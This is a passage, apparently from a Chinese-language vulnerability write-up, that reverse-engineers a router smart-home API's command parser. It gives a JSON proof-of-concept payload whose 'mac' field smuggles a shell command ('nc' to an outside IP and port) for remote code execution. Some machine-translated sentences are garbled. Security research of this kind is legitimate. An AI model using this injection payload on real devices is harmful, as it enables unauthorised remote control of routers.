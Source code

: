 ```
                                        if (strcmp(cmd_string, "scene_launch") == 0)
                                        {
                                            if (strcmp(cmd_string, "scene_launch_delete") == 0)
                                            {
                                                if (strcmp(cmd_string, "scene_delete") == 0)
                                                {
                                                    if (strcmp(cmd_string, "scene_start_by_device_status") == 0)
                                                    {
                                                        if (strcmp(cmd_string, "is_scene_processing") == 0)
                                                        {
                                                            if (strcmp(cmd_string, "get_scene_count") == 0)
                                                            {
                                                                if (strcmp(cmd_string, "reset_scenes") == 0)
                                                                {
                                                                    if (strcmp(cmd_string, "scene_start_by_crontab") != 0)
                                                                    {
```  
  
  
对于那些真正关注的人，我们可以在这里看到，strcmp如果字符串不相等，则返回 0，这与通常发生的情况相反：这是因为strcmp这里使用的是自定义实现。  
  
  
在同一个函数中，我们可以看到我们感兴趣的函数的唯一交叉引用run_sysapi_macfilter，例如命令“scene_setting”。  
  
  
在对命令解析过程进行了一些逆向工程之后，我们为 API 构建了以下有效负载，/api/xqsmarthome/request_smartcontroller然后可以使用该负载通过使用将阻止 MAC 地址的命令创建一个新的“场景”来对 RCEscene_setting进行 POC - 这将在事实上，这是我们的命令注入有效负载。  
  
```
{
    "command":"scene_setting",
    "name":"it3",
    "action_list":[
            {
                "thirdParty":"xmrouter",
                "delay":17,
                "type":"wan_block",
                "payload":
                    {
                        "command":"wan_block",
                        // Command Injection - making an exterior connection
                        "mac":";nc 192.168.31.161 4242;#"
                    }
            }
        ],
    "launch":
        {
            "timer":
                {
                    "time":"2:2",
                    "repeat":"0",
                    "enabled":true
                }
        }
}
```  
  